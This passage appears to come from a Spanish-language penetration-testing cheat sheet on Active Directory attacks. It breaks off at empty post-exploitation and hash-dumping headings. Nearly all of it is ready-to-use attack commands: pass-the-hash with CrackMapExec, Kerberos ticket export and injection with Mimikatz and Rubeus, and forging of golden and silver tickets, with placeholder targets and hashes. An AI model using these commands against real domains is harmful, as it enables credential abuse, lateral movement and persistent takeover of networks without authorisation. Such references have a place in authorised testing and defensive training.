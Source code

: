 **CrackMapExec**

```bash
# Pass-the-Hash con CrackMapExec
crackmapexec smb 1.1.1.1 -u usuario -H nthash
```

### Pass-the-Ticket

**Mimikatz**

```powershell
# Exportar ticket Kerberos
sekurlsa::tickets /export

# Usar ticket Kerberos
kerberos::ptt ticket.kirbi

# Listar tickets Kerberos
kerberos::list
```

**Rubeus**

```powershell
# Importar ticket Kerberos
Rubeus.exe ptt /ticket:base64_ticket
```

### Golden Ticket

**Mimikatz**

```powershell
# Crear un Golden Ticket
kerberos::golden /user:usuario /domain:dominio.com /sid:S-1-5-21-... /krbtgt:krbtgt_hash /id:500

# Inyectar el Golden Ticket
kerberos::ptt ticket.kirbi
```

### Silver Ticket

**Mimikatz**

```powershell
# Crear un Silver Ticket
kerberos::golden /user:usuario /domain:dominio.com /sid:S-1-5-21-... /target:servidor /service:cifs /rc4:hash /id:500

# Inyectar el Silver Ticket
kerberos::ptt ticket.kirbi
```

### Post-Exploitation

### Dump de Hashes
